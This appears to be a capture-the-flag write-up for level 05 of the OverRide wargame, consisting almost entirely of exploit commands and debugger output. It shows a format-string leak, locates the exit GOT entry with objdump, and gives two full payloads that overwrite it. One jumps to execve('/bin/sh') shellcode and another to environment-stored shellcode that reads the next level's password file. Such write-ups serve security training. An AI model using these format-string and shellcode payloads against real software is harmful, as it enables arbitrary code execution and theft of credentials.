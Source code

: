 # Level 05
<a href="/level06"><img align='right' width=20x height=auto src="https://cdn.onlinewebfonts.com/svg/img_68680.png"></img></a>

```
$> python -c "import struct; print('AAAABBBB' + '%x ' * 11)" | ./level05
aaaabbbb64 f7f39580 1 0 1 f7f99980 ffffffff 1 0 61616161 62626262
```

<pre>
echo | ltrace ./level05 1>&-
\__libc_start_main(0x8048444, 1, -10540, 0x8048520, 0x8048590 <unfinished ...>
<strong>fgets("\n", 100, 0xf7fcfac0)     = 0xffffd5c8</strong>
printf("\n")                     = 1
exit(0 <unfinished ...>
+++ exited (status 0) +++
</pre>

<pre>
level05@OverRide:~$ objdump -R ./level05 

./level05:     file format elf32-i386

DYNAMIC RELOCATION RECORDS
OFFSET   TYPE              VALUE 
080497c4 R_386_GLOB_DAT    \__gmon_start_\_
080497f0 R_386_COPY        stdin
080497d4 R_386_JUMP_SLOT   printf
080497d8 R_386_JUMP_SLOT   fgets
080497dc R_386_JUMP_SLOT   \__gmon_start_\_
<strong>080497e0 R_386_JUMP_SLOT   exit</strong>
080497e4 R_386_JUMP_SLOT   \__libc_start_main
</pre>

```
(python2.7 -c "import struct; print('jhh///sh/bin\x89\xe3h\x01\x01\x01\x01\x814\$ri\x01\x011\xc9Qj\x04Y\x01\xe1Q\x89\xe11\xd2j\x0bX\xcd\x80' + 'AAAA' + struct.pack('<I', 0x080497e0) + struct.pack('<I', 0x080497e2) + '%54672d' + '%22\$n' + '%10807d' + '%23\$n')") | ./level05
```

<pre>
$> env -i SHELLCODE="$SHELLCODE" SHELL=/bin/bash gdb ./level05
(gdb) b main
Breakpoint 1 at 0x8048449
(gdb) r
Starting program: /home/users/level05/level05 

Breakpoint 1, 0x08048449 in main ()
(gdb) x/2s \*\*(char\*\*\*)&environ
0xffffdf4e:      "SHELLCODE=jsh.pashl06/hlevehers/he/ush/hom\211\343\061\311\061\322j\005X\315\200j\001[\211\301\061\322h\377\377\377\177^1\300\260\273\315\200"
0xffffdf97:      "SHELL=/bin/bash"
(gdb) x 0xffffdf4e + 10
0xffffdf58:      "jsh.pashl06/hlevehers/he/ush/hom\211\343\061\311\061\322j\005X\315\200j\001[\211\301\061\322h\377\377\377\177^1\300\260\273\315\200"
</pre>

<pre>
(python -c "import struct; print('AAAA' + struct.pack('<I', 0x080497e0) + struct.pack('<I', 0x080497e2) + '%57205d' + '%11\$n' + '%8318d' + '%12\$n')") | env -i SHELLCODE="$(python -c "print('\x90' * 20 + 'jsh.pashl06/hlevehers/he/ush/hom\x89\xe31\xc91\xd2j\x05X\xcd\x80j\x01[\x89\xc11\xd2h\xff\xff\xff\x7f^1\xc0\xb0\xbb\xcd\x80')")" SHELL=/bin/bash ./level05
</pre>
